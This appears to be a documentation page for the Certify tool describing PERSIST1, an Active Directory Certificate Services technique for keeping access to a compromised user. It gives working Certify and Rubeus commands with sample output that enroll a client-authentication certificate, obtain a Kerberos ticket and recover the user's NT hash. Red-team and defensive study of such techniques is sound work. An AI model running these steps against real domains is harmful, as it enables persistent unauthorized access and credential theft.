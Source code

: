```yaml
---
title: 'PERSIST1 - User Persistence via Certificates'
description: 'Learn how to extend initial access to a user into persistent access by requesting a client authentication certificate in the context of the user account.'
icon: 'user'
sidebarTitle: 'PERSIST1 - User Persistence via Certificates'
---
```


PERSIST1 is a technique used to extend initial access to a user into persistent access by requesting a client authentication certificate in the context of the user account, which can be used for future authentication as the user account. If, for example, a phishing attack is successful and access is obtained as a user for which the credentials are unknown, persistent access to that user can be obtained through certificates.

## Template Requirements

According to [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf), a suitable certificate template must meet these criteria:

<Accordion title="Enterprise CA Enrollment Rights">
The enterprise CA grants enrollment rights to the user account. Otherwise, the account would be unable to request any certificates from the CA.
</Accordion>

<Accordion title="Template Enrollment Rights">
The certificate template grants enrollment rights to the user account. Otherwise, the account would be unable to request certificates based on the specific template.
</Accordion>

<Accordion title="Manager Approval Disabled">
The "manager approval" feature is disabled for the certificate template. Otherwise, a "CA Manager" would have to manually review and approve the certificate request.
</Accordion>

<Accordion title="Authorized Signature Disabled">
The "authorized signature" feature is disabled for the certificate template. Otherwise, an enrollment agent would need to sign the certificate request on behalf of the requester.
</Accordion>

<Accordion title="Client Authentication EKU">
The certificate template defines an Extended Key Usage (EKU) that enables client authentication:
- `Client Authentication` (`1.3.6.1.5.5.7.3.2`)
- `PKINIT Client Authentication` (`1.3.6.1.5.2.3.4`)
- `Smart Card Logon` (`1.3.6.1.4.1.311.20.2.2`)
- `Any Purpose` (`2.5.29.37.0`)
- `Subordinate CA` (No EKUs)
</Accordion>

## Enumeration

We can search for certificate templates with these conditions using the [`enum-templates --filter-client-auth`](/ghostpack-docs/Certify.wik-mdx/1-command-overview#enumerate-templates) command from Certify.

<CodeGroup>
```bash PowerShell
Certify.exe enum-templates --filter-enabled --filter-client-auth --hide-admins
```

```diff Sample Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=corp,DC=local'
[*] Classifying vulnerabilities in the context of built-in low-privileged domain groups.

...

[*] Enabled certificate templates found using the current filter parameters:

    Template Name                         : User
    Enabled                               : True
    Publishing CAs                        : ca01.corp.local\CORP-CA01-CA
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_ALT_REQUIRE_EMAIL, SUBJECT_REQUIRE_EMAIL, SUBJECT_REQUIRE_DIRECTORY_PATH
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
+   Manager Approval Required             : False
+   Authorized Signatures Required        : 0
+   Extended Key Usage                    : Client Authentication, Encrypting File System, Secure Email
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
+       Enrollment Rights           : CORP\Domain Users               S-1-5-21-976219687-1556195986-4104514715-513
      Object Control Permissions

Certify completed in 00:00:01.7777410
```
</CodeGroup>

<Tip>
Use `--filter-enabled` to only show templates published by a CA and `--hide-admins` to reduce noise in the output.
</Tip>

Once we have identified a suitable certificate template that the user account can enroll in, we can request a certificate based on the template using the [`request`](/ghostpack-docs/Certify.wik-mdx/1-command-overview#request-certificates) command from Certify.

```diff
> Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template User

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Request a certificate

[*] Current user context    : CORP\lowpriv
[*] No subject name specified, using current context as subject.

[*] Template                : User
[*] Subject                 : CN=lowpriv, OU=Users, OU=Corp, DC=corp, DC=local

[*] Certificate Authority   : ca01.corp.local\CORP-CA01-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 1

[*] Certificate (PFX)       :

MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh...

Certify completed in 00:00:04.3614718
```

When the certificate has been issued, it can be used to persistently authenticate as the user account using the [`asktgt`](/ghostpack-docs/Rubeus-mdx/commands/ticket-requests/asktgt) command from [Rubeus](/ghostpack-docs/Rubeus-mdx/overview). We can also use the `/getcredentials` parameter to request a U2U service ticket and retrieve the password NT hash for the user account.

```diff
> Rubeus.exe asktgt /user:lowpriv /certificate:MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh... /getcredentials

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: E=lowpriv@corp.local, CN=lowpriv, OU=Users, OU=Corp, DC=corp, DC=local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'corp.local\lowpriv'
[*] Using domain controller: 10.10.10.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGHjCCBhqgAwIBBaEDAgEWooIFMTCCBS1hggUpMIIFJaADAgEFoQ8bDU1FR0FLRUsuTE9DQUyiIjAg
      ...

  ServiceName              :  krbtgt/corp.local
  ServiceRealm             :  CORP.LOCAL
  UserName                 :  lowpriv
  UserRealm                :  CORP.LOCAL
  StartTime                :  30/06/2025 15.16.52
  EndTime                  :  01/07/2025 01.16.52
  RenewTill                :  07/07/2025 15.16.52
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  AFXzq5Bai41JhCj70jrfyA==
  ASREP (key)              :  D4F939DAB9C7B93717EB048B0F0F5F5C

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
+      NTLM              : 31D6CFE0D16AE931B73C59D7E0C089C0
```

<Warning>
The issued certificate will be able to authenticate for as long as is mentioned in the `Validity Period` attribute of the certificate template. In order to extend the persistence period, you need to abuse [PERSIST3 - Account Persistence via Certificate Renewal](./persist3-account-persistence-via-certificate-renewal).
</Warning>